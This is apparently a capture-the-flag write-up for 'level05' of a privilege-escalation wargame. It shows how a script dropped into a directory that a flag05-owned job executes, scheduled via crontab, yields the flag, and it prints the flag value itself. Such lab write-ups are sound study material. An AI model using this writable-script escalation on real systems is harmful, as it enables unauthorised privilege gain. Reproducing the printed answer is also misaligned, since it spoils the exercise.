 # level05

We got some intel from level00:
-rwxr-x---+ 1 flag05  flag05      94 Mar  5  2016 openarenaserver
/opt/openarenaserver
/usr/sbin/openarenaserver
/rofs/opt/openarenaserver
/rofs/usr/sbin/openarenaserver

```shell
cat /usr/sbin/openarenaserver
``` shows a bash script that runs all scripts in `/opt/openarenaserver`

```shell
ls -la /usr/sbin/openarenaserver
``` shows that this script belongs to flag05, thus executing it with crontab would maybe esacalte privileges

```shell
echo -e "getflag > /opt/openarenaserver/flag" > /opt/openarenaserver/exploit.sh
```

```shell
crontab -e```

```shell
* * * * * /opt/openarenaserver/exploit.sh
```

to execute exploit every minute

wait for < 1 minute for crontab to execute

```shell
cat /opt/openarenaserver/flag
```

gives flag:

```shell
viuaaale9huek52boumoomioc
```
